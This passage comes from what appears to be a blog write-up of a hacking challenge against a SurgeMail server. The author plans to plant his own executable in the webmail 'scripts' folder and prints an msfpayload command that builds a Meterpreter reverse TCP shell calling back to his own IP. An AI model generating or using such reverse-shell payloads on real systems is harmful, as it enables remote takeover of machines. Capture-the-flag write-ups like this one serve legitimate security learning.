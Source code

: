 Nice.

Let’s see if I can create some stuff here (just for fun). I decided to create a little blog and publish it on the server :

[![corelanc0d3r_blog](../../../_resources/24b62d0758dc44788011c654dafa0ae2.png "corelanc0d3r_blog")](https://www.corelan.be/wp-content/uploads/2010/05/corelanc0d3r_blog.png)

muahaha…   ok, enough playing.   So I found a second serious vulnerability on this box.  But I should stay focussed and try to 0wn the machine in order to grab the “secret key” from the machine, which is what is really needed to complete this challenge. Focus Peter, Focus.

I went back to the surgemail home page and clicked on the “webmail” link.

When looking at the WebMail login page, I noticed this :

[![image](../../../_resources/31e5d9766dd84a63983fb884f0339f3f.png "image")](https://www.corelan.be/wp-content/uploads/2010/05/image14.png)

WebMail appears to be an executable, in the scripts folder.  So what if we can put our own executable in this “scripts” folder and call it from the web browser ?

First, using metasploit’s msfpayload, let’s create an evil executable (Meterpreter reverse tcp shell) that would give us a nice shell :

```
./msfpayload windows/meterpreter/reverse_tcp RHOST=192.168.6.114 RPORT=4444 LHOST=192.168.6.114 LPORT=4444 X > _corelanc0d3r.exe
```
